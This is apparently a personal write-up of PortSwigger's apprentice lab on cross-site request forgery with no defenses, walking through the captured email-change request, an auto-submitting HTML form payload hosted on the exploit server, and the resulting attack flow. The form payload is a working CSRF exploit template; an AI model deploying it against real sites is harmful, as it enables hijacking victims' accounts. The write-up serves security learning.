



# CSRF Vulnerability with No Defenses

## 📌 Lab Overview

**Platform:** PortSwigger Web Security Academy
**Category:** Cross-Site Request Forgery (CSRF)
**Difficulty:** Apprentice
**Vulnerability:** CSRF with no defenses

## 🎯 Objective

The objective was to exploit the email-change functionality and change the victim's email address by crafting a malicious HTML page and hosting it on the exploit server.

## 🔍 1. Inspecting the Email Change Request

After logging in with the provided account, I changed the email address and captured the request using Burp Suite.



The application sent a simple POST request:

```http
POST /my-account/change-email

email=test@example.com
```

There was **no CSRF token or additional CSRF validation** in the request.

---

## 🧪 2. Creating the CSRF Payload

I created an HTML form that sends a POST request to the vulnerable endpoint.



```html
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="attacker100@gmail.com">
</form>

<script>
    document.forms[0].submit();
</script>
```

The form contains the email address that I want the victim's account to be changed to.

---

## ⚙️ 3. Understanding the Payload

The form targets:

```text
/my-account/change-email
```

and sends:

```text
email=attacker100@gmail.com
```

The following JavaScript automatically submits the form:

```javascript
document.forms[0].submit();
```

This means the victim does not need to manually click a submit button.

---

## 🌐 4. Uploading the Exploit

I uploaded the malicious HTML to the PortSwigger Exploit Server.
After opening the exploit, the browser automatically submitted the form to the vulnerable endpoint.

---

## ✅ 5. Result

The victim's email address was successfully changed.



**Lab Status: Solved ✅**

---

## 🔄 Attack Flow

```text
Attacker creates malicious HTML
            ↓
Uploads HTML to Exploit Server
            ↓
Victim opens the exploit
            ↓
JavaScript automatically submits the form
            ↓
POST /my-account/change-email
            ↓
Browser includes victim's authentication
            ↓
Server accepts the request
            ↓
Victim's email is changed
```

## 🧠 Key Takeaway

The main concept I learned from this lab is that **CSRF does not require the attacker to steal or know the victim's session cookie**.

Instead, the attacker tricks the victim's browser into making a request to a website where the victim is already authenticated.

The vulnerability exists because the application accepts a state-changing request without effective CSRF protection.


